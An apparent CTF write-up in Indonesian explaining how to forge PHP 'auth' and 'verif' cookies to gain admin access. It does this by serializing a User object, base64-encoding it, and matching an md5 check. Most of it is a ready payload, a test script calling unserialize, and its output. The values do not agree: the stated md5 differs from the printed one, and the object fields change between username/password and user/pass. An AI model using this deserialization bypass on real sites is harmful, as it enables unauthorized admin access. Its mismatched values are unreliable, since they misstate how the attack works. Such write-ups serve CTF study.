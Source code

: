 * Cookie auth merupakan serialize dari objek User dengan user-> admmin dan pass-> True + diencode ke base64. Adapun cookie verif merupakan hasil encode base64 dari md5 cookie auth. Jadi untuk mendaptkan admin, peserta harus membuat payload objek untuk diserialize yang benar (seperti di bawah) dan mengencodenya ke base64 sebagai cookie auth. Lalu menghash md5 
dari hasil cookie auth sebagai cookie check. 

  Lebih lengkap:
  ```
  <?php
  $_COOKIE['auth'] = 'Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjU6ImFkbWluIjtzOjg6InBhc3N3b3JkIjtiOjE7fQ==';
  //O:4:"User":2:{s:8:"username";s:5:"admin";s:8:"password";b:1;} -> md5 -> 1aeb9a86182f5e268f7fdfae04d1e08f

  $_COOKIE['verif'] = 'MWFlYjlhODYxODJmNWUyNjhmN2ZkZmFlMDRkMWUwOGY=';
  //base64 1aeb9a86182f5e268f7fdfae04d1e08f

  var_dump(md5($_COOKIE['auth']));
  var_dump(base64_decode($_COOKIE['verif']));

  if(md5($_COOKIE['auth']) === base64_decode($_COOKIE['verif'])) {
      $login = unserialize(base64_decode($_COOKIE['auth']));
      var_dump($login);
  }else {

  }
  ```
  
  ```
  string(32) "6897f0060a84ecb0600e4167d2a748e4"
  string(32) "6897f0060a84ecb0600e4167d2a748e4"
  object(__PHP_Incomplete_Class)#1 (3) {
  ["__PHP_Incomplete_Class_Name"]=>
  string(4) "User"
  ["user"]=>
  string(5) "admin"
  ["pass"]=>
  bool(true)
  }
  ```
